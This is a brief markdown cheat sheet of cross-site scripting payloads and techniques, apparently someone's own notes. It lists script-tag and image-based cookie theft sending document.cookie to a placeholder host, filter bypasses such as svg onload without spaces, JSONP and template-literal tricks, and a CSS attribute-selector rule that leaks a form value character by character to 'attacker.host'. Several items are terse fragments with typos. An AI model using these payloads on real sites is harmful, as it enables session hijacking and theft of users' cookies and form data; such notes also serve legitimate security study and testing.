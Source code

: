 # XSS Payloads

1. `<script>alert(1)</script>`
2. `document.replace("attacker")` for if outbound is blocked
3. `XMLHTTP request`
4. `fetch` or `$.get` (fetch is built in)
5. `document.write('<img src="'+attack+'">"')`
6. `document.write('<img src="attacker" onerror="mallicious">')`
7. `<script>new Image().src = "fsfsfsfsfsfsd?"+document.cookie`
    - note that '//' is the default protocol i.e 'http://'
8. `<svg onload=''>`
    - note thst if spaces are blocked yu can do `<svg\onload="lol">`
9. jsonp `http://news.com/wethertype=jsonp&method=somefunction` runs function
    - use comma expressions to run whatever you want
10. templete literals :(
    - Array.join`${document.cookie}`
11. sometimes grab the enite page source rather then the cookie.
12. onload and onfocus to trigger
13. not xss but we can use css to send requests.

```css
#username[value^="a"] {
  background: url("https://attacker.host/mikeg");
}
```
you need to write a script to slowly guess the string each time.

14. polyglots
